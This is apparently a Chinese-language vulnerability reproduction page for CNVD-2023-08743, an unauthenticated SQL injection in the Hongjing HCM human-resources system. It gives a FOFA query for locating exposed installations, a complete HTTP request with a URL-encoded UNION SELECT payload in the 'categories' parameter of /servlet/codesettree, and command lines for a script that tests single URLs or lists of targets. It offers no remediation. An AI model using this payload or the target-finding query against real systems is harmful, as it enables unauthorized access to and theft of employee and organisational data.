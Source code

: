 # CNVD-2023-08743 宏景HCM SQL注入漏洞复现

### 1.漏洞描述

宏景HCM系统是一款由宏景软件研发的系统，主要功能包括人员、组织机构、档案、合同、薪资、保险、绩效、考勤、招聘、培训、干部任免和人事流程等业务的管理，以及人事、绩效、培训、招聘、考勤等业务自助，还具备了报表功能和灵活的表格工具，支持集团管控、目标管理、领导决策等应用。

宏景HCM系统 categories处存在SQL注入漏洞，未经过身份认证的远程攻击者可利用此漏洞执行任意SQL指令，从而窃取数据库敏感信息。

### 2.fofa语法

```
body='<div class="hj-hy-all-one-logo"' && title="人力资源信息管理系统"
```

### 3.漏洞复现

```
GET /servlet/codesettree?categories=~31~27~20union~20all~20select~20~27hongjing~27~2c~40~40version~2d~2d&codesetid=1&flag=c&parentid=-1&status=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719832471808-3fd674d8-67af-4eb8-98e4-635fd2a48bd5.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

### 4.py脚本使用

```
python3 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 脚本文件名 -f url.txt             # 测试多个url
```

